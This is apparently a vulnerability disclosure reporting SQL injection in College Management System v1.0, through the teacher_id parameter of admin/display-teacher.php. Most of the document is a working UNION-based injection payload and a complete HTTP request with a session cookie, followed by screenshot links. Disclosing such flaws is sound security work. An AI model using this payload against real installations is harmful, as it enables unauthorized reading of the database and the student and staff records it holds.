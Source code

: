 # College Management System v1.0 by oretnom23 has SQL injection

vendors: https://code-projects.org/college-management-system-in-php-with-source-code/

Vulnerability File: /College_Management_System/admin/display-teacher.php?teacher_id=

Vulnerability location: /College_Management_System/admin/display-teacher.php?teacher_id=, id

[+] Payload: /College_Management_System/admin/display-teacher.php?teacher_id=-2%27%20union%20select%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32--+

```sql
GET /College_Management_System/admin/display-teacher.php?teacher_id=-2%27%20union%20select%201,version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qgju0bcshgm305hone8pah7cnf
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167042387-fee226a1-b577-4f6b-91fc-c8b2f3367d97.png)

![image](https://user-images.githubusercontent.com/54017627/167042339-1a077faf-e71c-43fa-aab8-954477bfbcc4.png)
